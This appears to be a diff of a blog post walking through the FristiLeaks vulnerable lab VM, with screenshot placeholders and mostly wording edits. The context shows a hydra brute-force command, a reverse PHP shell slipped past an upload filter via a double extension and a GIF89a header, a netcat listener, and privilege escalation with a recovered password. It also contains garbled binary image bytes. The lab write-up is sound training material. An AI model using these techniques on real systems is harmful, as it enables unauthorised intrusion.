

Before and after one commit to holstrater/holstrater.github.io, a Jekyll site: the page built from _posts/2020-05-02-fristileaks.md, in a window 1280 px wide and 1400 px high, scrolled down 6772 px. Shown: the whole window at 92% size, without its empty margins (0-998 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
5th post attempt

````diff
--- a/_posts/2020-05-02-fristileaks.md
+++ b/_posts/2020-05-02-fristileaks.md
@@ -138,28 +138,30 @@ IHDRm4�A�sRGB���gAMA��
                                                            �z��l&�I%KH�@f45�5��VI
                                                                                  ���s��~���E��"Gx�#��^/r�9���E��"Gx�#��^/r�9���E��"Gx�#��^/�����&������T3h��#3՗j�
                                                                                                                                                                  ��~�ݿ~��2�Z�e��L������ZZUW$�o��y���{K}�f�P����9{�6�X��KKL>����a�%�ZD�
-��*�%&��Rxg�յ���V3]��#q�pz�R�\Zb�      -]�յ���JH5�9r(����I5se��G�tXq"k�6���j�����e׵�K����Z�t1n��               ���6��
+'��*�%&��Rxg�յ���V3]��#q�pz�R�\Zb�      -]�յ���JH5�9r(����I5se��G�tXq"k�6���j�����e׵�K����Z�t1n��               ���6��
 F��n�T3W��ג���ߞ���j�                                                          �g=�Yx�i�bѢꍗj�ʒ�H-Y��ʯ��JH5Ӆx�D7(
                     ��ߠ�MI6�������D3�
                                      ������M���JH5ӅZ�l3�GY�d��M▒o6��T�rR�
                                                                          ��/�-��5ӅJ��I,�i9�l�Ѣ��Y��D���![
 
-�o����͹tWK}�f�h�����}d� [��T5!Ռuɘ-��Ӈ������Ӌ,����C-GR��,����kj�\g}<���g.Ռuɘ-��V�_u��Z����#�|��_�A��Ӝ��c�jƸdЖJ{<7
-����9C}�f�P�4��p�]��O���I5c\2hK�G����t��b����#�*�       ��:�����R��J��jƺ$����#+o`���L*9�I:�����,��>��U騢"�3�jƼdȖ�ˆ#۞�����j��)�zUq��F>L�Z���[Z4���LZ�R}�f�ˑ����S;���|�������f.-������h��FEZ�T_��>�sd�a6�(.�U^n|/�����ZZ��=�#;t����T_��>Trd��+?���8�7�j-�}d��R�t!�#�[/r�9���E��"Gx�#��^/r�9���E��"Gx�#��^/r�9���E��"Gx�#��^/r�9���E�����Z�8�rqIEND�B`�
+�o����͹tWK}�f�h�����}d� [��T5!Ռuɘ-��Ӈ������Ӌ,����C-GR��,����kj�\g}<���g.Ռuɘ-��V�_u��Z����#�|��_�A��Ӝ��'c�jƸdЖJ{<7
+����9C}�f�P�4��p�]��O���I5c\2hK�G����t��b����#�*�       ��:�����R��J��jƺ$����#+o`���L*9�I:�����,��>��U騢"�3�jƼdȖ�ˆ#۞�����j��)'�zUq��F>L�Z���[Z4���LZ�R}�f�ˑ����S;���|�������f.-������h��FEZ�T_��>�sd�a6�(.�U^n|/�����ZZ��=�#;t����T_��>Trd��+?���8�7�j-�}d��R�t!�#�[/r�9���E��"Gx�#��^/r�9���E��"Gx�#��^/r�9���E��"Gx�#��^/r�9���E�����Z�8�rqIEND�B`�
 ```
 
 Given that the notes from earlier mentioned how this way of encoding is used for images and the output above starts with `�PNG
-`, I `piped` the output to a new file which I gave the `png` extension. Opening that file showed the following:
+`, I `piped` the output to a new file which I gave the `.png` extension. Opening that file showed the following:
 
 ![alt]({{ site.url }}{{ site.baseurl }}/images/fristileaks_decodedpic.png)
 
-This seemed like it could work as a password in the login form I found earlier. Now I only had to find the username, which turned out harder than I thought. I tried the usual ones like `admin`, `root`, `user`, etc. but no luck. I then even ran a bruteforce attempt on the login form using `hydra -L usernames.txt -p keKkeKKeKKeKkEkkEk 192.168.56.113 http-post-form '/fristi/checklogin.php:myusername=^USER^&mypassword=^PASS^:S=Wrong' -w 5 -W 1 -vV` but no matches found. This lead me to believe that the info I needed, again, would be hidden in plain sight somewhere. I took another look at the login form's page source and I noticed the name `eezeepz`. I gave that a try and sure enough, I was in:
+This seemed like it could work as a password in the login form I found earlier. Now I only had to find the username, which turned out harder than I thought.
+
+I tried the usual ones like `admin`, `root`, `user`, etc. but no luck. I then even ran a bruteforce attempt on the login form using `hydra -L usernames.txt -p keKkeKKeKKeKkEkkEk 192.168.56.113 http-post-form '/fristi/checklogin.php:myusername=^USER^&mypassword=^PASS^:S=Wrong' -w 5 -W 1 -vV` but no matches found. This lead me to believe that the info I needed, again, would be hidden in plain sight somewhere. I took another look at the login form's page source and I noticed the name `eezeepz`. I gave that a try and sure enough, I was in:
 
 ![alt]({{ site.url }}{{ site.baseurl }}/images/fristileaks_loggedin.png)
 
-Since this gave me access to some kind of file upload application, I decided to upload a reverse PHP shell and then run it by visiting it via whatever path it would be uploaded to. The file upload application seemed to be whitelisting file extensions, which didn't allow `.php` files to be uploaded. This just meant I had to rename the reverse PHP shell to something ending in `.png`. I set up a listener on my Kali machine and then uploaded and opened the file via `192.168.56.113/uploads/php-reverse-shell.php.png`.
+Since this gave me access to some kind of file upload application, I decided to upload a reverse PHP shell and then run it by visiting it via whatever path it would be uploaded to. The file upload application seemed to be whitelisting file extensions, which didn't allow filenames ending in `.php` to be uploaded. This just meant I had to rename the reverse PHP shell to something ending in `.png`. I set up a listener on my Kali machine and then uploaded and opened the file via `192.168.56.113/uploads/php-reverse-shell.php.png`.
 
-Strangely enough this didn't work, despite the message I got telling me the upload was successful and should be found at `/uploads/`. Eventually I found out that on some websites, you can add `GIF89a;` to the header of your file to circumvent extra file checks being done. I did this and my listener finally caught a shell on the target's system:
+Strangely enough this didn't work, despite the message I got telling me the upload was successful and should be found at `/uploads/`. Eventually I found out that on some websites, you can add `GIF89a;` to the header of your file to circumvent extra file checks being done. I did this and my listener finally caught a low privilege shell on the target's system:
 
 ```sh
 kali@kali:~$ nc -nlvp 7777
@@ -175,7 +177,7 @@ whoami
 apache
 ```
 
-Looking around I found some `.txt` files with notes:
+I moved on to see how I could turn my limited privileges into full privileges. Looking around I found some `.txt` files with notes:
 
 ```sh
 sh-4.1$ ls ~
@@ -275,7 +277,7 @@ print cryptoResult
 
 This was going somewhere. All I would have to do was reverse the encrypted password (`=RFn0AKnlMHMPIzpyuTI0ITG`) to the original plaintext password by following the steps of `cryptpass.py` in reverse order. This meant 1) using the ROT13 cipher on it (ROT13 forward does the same as ROT13 backwards), 2) spelling the result of that in reverse (that's what `[::-1]` does) and 3) running `base64 -d` on the result of that. The outcome: `LetThereBeFristi!`.
 
-Because I remembered the `/home/fristigod` directory from earlier (and the name of the .txt file being `whoisyourgodnow.txt`), I checked if i could `sudo fristigod` with that password and sure enough:
+Because I remembered the `/home/fristigod` directory from earlier (and the name of the `.txt` file being `whoisyourgodnow.txt`), I checked if i could `sudo fristigod` with that password and sure enough:
 
 ```sh
 sh-4.1$ su fristigod
@@ -329,7 +331,8 @@ Nice try, but wrong user ;)
 bash-4.1$ sudo -u fristi ./doCom
 sudo -u fristi ./doCom
 [sudo] password for fristigod: LetThereBeFristi!
-Usage: ./program_name terminal_command ...bash-4.1$ whoami
+Usage: ./program_name terminal_command ...
+bash-4.1$ whoami
 whoami
 fristigod
 bash-4.1$ sudo -u fristi ./doCom /bin/bash
````
Also changed, not shown: other parts of _posts/2020-05-02-fristileaks.md (+2 -2 lines).
